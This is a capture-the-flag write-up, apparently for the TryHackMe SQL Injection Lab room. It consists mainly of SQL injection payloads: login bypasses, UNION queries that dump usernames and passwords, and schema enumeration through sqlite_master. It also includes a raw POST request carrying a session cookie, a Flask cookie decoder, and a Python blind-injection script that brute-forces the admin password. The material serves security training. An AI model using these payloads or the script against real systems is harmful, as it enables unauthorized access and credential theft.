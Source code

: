 # SQL Injection Lab

**Room Link:** [https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)



## Introduction to SQL Injection: Part 1

### SQL Injection 1: Input Box Non-String

```
1 or 1=1-- -
```

### **SQL Injection 2: Input Box String**

```
1' or '1'='1'-- -
```

### SQL Injection 3: URL Injection

```
$VICTIM:5000/sesqli3/login?profileID=1' or 1=1-- -&password=a
```

**SQL Injection 4: POST Injection**

```
POST /sesqli4/login HTTP/1.1
Host: 10.10.164.155:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://10.10.164.155:5000
Connection: close
Referer: http://10.10.164.155:5000/sesqli4/login
Cookie: session=.eJy90jFrYzEMB_Dv4jmDZUu2nPk46NLt5iLJMjyaNu17PUoJ-e7nXI-jQ4dM2SwJhH_--xQ2314PCzx0eZOwP4Vfdz_CHnbBn2Q5hH0Iu_AsTz5PP1d5tuOyXTqLPd5_dmf1Itv2clzf7tdZc4mUiCJgZPw3fD-ufY7QOI8aTUYWsCaGhrWnhuRxVB61Z5JqDVDYgaFkMU-ZBdS9gF62rcexHPxyxwBxNjY5yPoR9oniefcf83vz9WHpfyGfvXQLYC0aidFb0xoVW1UpyJkUnBw9RaCEVIs0kMo5C08rFNds2ebGa4HpG2C-BdBsoEGExuRZXWZydQpkFHVuOXJXm_Mxjbm7zgeY-WKx1HtDALsWmL8B4i2AvQnUwtgGWbFOM0TqQI3ZSKypKs_Pi105F-k8mDRy9QQ4BJpdnSB-AZ7_ABfzCOM.ZO_PVg.gxMIbBhBjlFSHtc1twhp3ImdLj4
Upgrade-Insecure-Requests: 1

profileID=-1%27%20or%201=1--%20-&password=a
```

## Introduction to SQL Injection: Part 2







Shows all the table names

```
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

Show all fields from the table usertable

```
l FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Shows all the fields from the table secret

```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
```

<figure><img src="../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Display all the values from the table secrets

```
',nickName=(SELECT group_concat(id || "," || author|| "," || secret|| ":") from secrets),email='
```

<figure><img src="../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication

```
1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication&#x20;

```
Username: ' OR 1=1-- -
```

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

#### **decode\_cookie.py**

```
#!/usr/bin/python3
import zlib
import sys
import json
from itsdangerous import base64_decode


def decode(cookie):
    """
    Decode a Flask cookie

    https://www.kirsle.net/wizards/flask-session.cgi
    """
    try:
        compressed = False
        payload = cookie

        if payload.startswith('.'):
            compressed = True
            payload = payload[1:]

        data = payload.split(".")[0]

        data = base64_decode(data)
        if compressed:
            data = zlib.decompress(data)

        return data.decode("utf-8")
    except Exception as e:
        return f"[Decoding error: are you sure this was a Flask session cookie? {e}]"


cookie = sys.argv[1]
data = decode(cookie)
json_data = json.loads(data)
pretty = json.dumps(json_data, sort_keys=True, indent=4, separators=(",", ": "))
print(pretty)

```



<figure><img src="../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

```
python decode_cookie.py .eJyrVkrOSMzJSc1LTzWKLy1OLYrPTFGyMtRBF85LzE1VslJKTMnNzFOqBQAYpRNS.ZPCIPg.GEqyzNXd85i4M0Oqpt9ITOmwTOM
```

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>



```
' UNION SELECT 1,NULL-- -
```

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,2-- - 
```

<figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

Enmerutate passwords, the below only returns the first result which we probably don't want.

```
' UNION SELECT 1, password from users-- -
```

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

This way concats all the passwords

```
' UNION SELECT 1,group_concat(password) FROM users-- -
```

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication 3 (Blind Injection)



#### challenge3-exploit.py

```
#!/usr/bin/python3
import sys
import requests
import string


def send_p(url, query):
    payload = {"username": query, "password": "admin"}
    try:
        r = requests.post(url, data=payload, timeout=3)
    except requests.exceptions.ConnectTimeout:
        print("[!] ConnectionTimeout: Try to adjust the timeout time")
        sys.exit(1)
    return r.text


def main(addr):
    url = f"http://{addr}/challenge3/login"
    flag = ""
    password_len = 38
    # Not the most efficient way of doing it...
    for i in range(1, password_len):
        for c in string.ascii_lowercase + string.ascii_uppercase + string.digits + "{}":
            # Convert char to hex and remove "0x"
            h = hex(ord(c))[2:]
            query = "admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1)," \
                f"{i},1)=CAST(X'{h}' AS TEXT)--"

            resp = send_p(url, query)
            if not "Invalid" in resp:
                flag += c
                print(flag)
    print(f"[+] FLAG: {flag}")


if __name__ == "__main__":
    if len(sys.argv) == 1:
        print(f"Usage: {sys.argv[0]} MACHINE_IP:PORT")
        sys.exit(0)
    main(sys.argv[1])

```



**Kali**

```
python challenge3-exploit.py $KALI:5000
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Vulnerable Notes

Create user

```
Username: '  union select 1,group_concat(password) from users'
Password: blah
```



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Vulnerable Startup: Change Password

**Signup**

```
Username: admin'-- -
```

## Vulnerable Startup: Book Title

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
') union select 1,group_concat(username),group_concat(password),4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Book Title 2

```
' union select '-1''union select group_concat(username),group_concat(password),3,4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>























